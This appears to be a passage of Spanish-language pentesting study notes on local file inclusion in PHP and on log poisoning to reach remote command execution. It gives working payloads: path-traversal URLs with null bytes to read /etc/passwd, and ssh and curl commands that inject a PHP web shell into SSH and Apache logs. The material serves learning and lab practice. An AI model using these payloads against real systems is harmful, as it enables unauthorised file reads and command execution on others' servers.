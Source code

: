 ### En este caso el desarrollador estaria intentando forzarnos a que lo que ingresemos tenga la extención .php, por lo que si quisieramos ingresar /etc/passwd estariamos ingresando /etc/passwd.php (En caso de sortear todo tipo de validación posible). En este caso, lo que podriamos hacer es hacer uso de un **NULL Byte**, es importante aclarar que esto funciona para versiones antiguas de php y no actuales. Solo haria falta poner en la url 
### `...?file=....//....//....//....//....//....//....//....//....//etc/passwd%00`, el **%00** es un null Byte, lo cual anula lo posterior al mismo, anulando asi la extención '.php'. 

### Tambien si se hiciera una validación tal que  `if(substr($argv[1],-6,6)!="passwd") include($argv[1]);` asi, en donde se evalua que los ultimos 6 caracteres no sean "passwd", para versiones antiguas de php, podriamos utilizar el `/.` para burlar esto, de manera que si ingresamos `/etc/passwd/.` estariamos burlando la validación. Lo mismo que si se utilizara lo mismo para validar extenciones, por ejemplo`if(substr($argv[1],-4,4)!=".txt") include($argv[1]);`, de esta manera no podriamos ver  archivos .txt, pero si hicieramos `file.txt/.` una vez más, estariamos burlando esto. 

----

#  Log Poisoning - ( **LFI** migrado a [[RCE - (Remote Command Execution)]] )

### El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro (logs)** de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr un [[RCE - (Remote Command Execution)]].  

### Esto se puede dar abusando de los archivos de logs de ssh, Mail, Apache, etc.

- ## SSH 
### Podriamos desde un **LFI** ver la ruta `/var/log/auth.log` o `/var/log/btmp`, entre otras, para ver los logs de SSH, y de esta manera, en caso de que los podamos ver, envenenar el log (**Log Poisoning**) intentando conectarnos a ssh por ejemplo con el comando `ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.38`. 

- ## Apache 
### Podriamos desde un **LFI** ver la ruta `/var/log/apache2/access.log`, entre otras, para ver los logs de Apache, y de esta manera, en caso de que los podamos ver, envenenear el log (**Log Poisoning**) intentando hacer un curl a la ruta y inyectando el comando php en el User-Agent con el comando `curl -s -X GET 'http://192.168.1.38' -d 'User-Agent: <?php system($_GET["cmd"]); ?>'` o con  `curl -s -X GET 'http://192.168.1.38' -A '<?php system("whoami"); ?>'`.
